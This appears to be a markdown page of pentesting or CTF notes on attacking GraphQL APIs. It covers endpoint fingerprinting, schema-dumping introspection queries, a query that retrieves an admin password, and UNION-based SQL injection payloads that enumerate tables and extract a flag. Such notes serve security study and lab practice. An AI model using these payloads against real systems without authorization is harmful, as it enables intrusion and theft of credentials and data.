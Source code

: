 ```yaml
---
layout: default
title: GraphQL
permalink: /Web/graphql/
---
```


# Basics

A GraphQL service typically runs on a single endpoint, most commonly at `/graphql`, `/api/graphql`, or something similar.

For details: [https://graphql.org/learn/](https://graphql.org/learn/)

# graphw00f
Frist clone the [repository](https://github.com/dolevf/graphw00f), then run the `main.py` script.
```
python3 main.py -d -f -t http://$ip
```
- `-f`: fingerprint mode
- `-d`: detect mode

Accessing the GraphQl endpoint in a browser can reveal additional information.

## Introspection
Introspection is a GraphQL feature to query about the structure of the backend system.
All GraphQL types supported by the backend:
```
{
  __schema {
    types {
      name
    }
  }
}
```
After we know a type, we can obtain the name of all of the type's fields with the following introspection query:
```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```
We can also obtain all the queries supported by the backend:
```
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```
Query that dumps all information about types, fields, and queries supported by the backend:
```
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

We can visualize the schema using tools such as [GraphQL-Voyager](https://github.com/APIs-guru/graphql-voyager).

# Insecure Direct Object Reference (IDOR)

A good start is to enumerate requests with Burp.

A query like that in a POST request could reveal a password:
```
{"query":"{user(username: \"admin\") { username password }}"}
```

# Injection Attacks

## SQL Injection
We should investigate all GraphQL queries, check whether they support arguments, and analyze these arguments for potential SQL injections.
We can send the query without any arguments and if the backend expects an argument, the response contains an error that tells us the name of the required argument.
When a GraphQL query returns a structured object (like UserObject), UNION-based SQL injection can be used by aligning your payload with the structure of the object.
Example:
- Target GraphQL Field: user
- Returned Object Type: UserObject (6 fields: uuid, id, username, password, role, msg - results of the introspection query)
- Injection Vector: username parameter

1. Discover Table Names
```
{
  user(username: "' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```
- Match number of columns in UNION SELECT to fields in the return object.
- Use GROUP_CONCAT() to aggregate results when only one row is returned.
- Payload is injected inside a string argument to a GraphQL object query.
- Terminate original query with ' and comment remainder with -- -.

2. Discover Column Names in flag Table
```
{
  user(username: "' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='flag'-- -") {
    username
  }
}
```
3. Extract Flag from flag Table
```
{
  user(username: "' UNION SELECT 1,2,flag,4,5,6 FROM flag-- -") {
    username
  }
}
```
